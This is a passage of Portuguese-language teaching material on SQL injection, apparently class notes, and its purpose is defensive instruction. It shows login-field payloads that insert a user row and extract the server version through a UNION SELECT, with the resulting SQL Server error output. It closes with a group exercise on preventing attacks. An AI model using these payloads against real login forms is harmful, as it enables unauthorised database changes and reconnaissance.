 ```Username: '; insert into users values(9999, ‘willy', 'foobar')--```

### 5.6) Username: ' ' union select @@version,1,1,1—-

-- Error

Microsoft OLE DB Provider for ODBC Drivers error '80040e07' [Microsoft]
[ODBC SQL Server Driver][SQL Server]Syntax error converting the nvarchar value
'Microsoft SQL Server 2000 - 8.00.760 (Intel X86)

Dec 17 2002 14:22:05 Copyright (c) 1988-2003 Microsoft Corporation Standard Edition on Windows NT 5.2 (Build 3790: Service Pack 1)' to a column of data type int. 

/process_login.asp, line 35

**Conquita do hacker:** versão do banco de dados (Microsoft SQL Server 2000) e sistema operacional (Windows NT)

## 6) Atividade

Cada grupo deve montar uma apresentação de até 5min explicando o que pretende fazer para impedir ataques no seu RDS e vir explicar para os demais.

Todos os grupos terão 25min para montar essa apresentação.
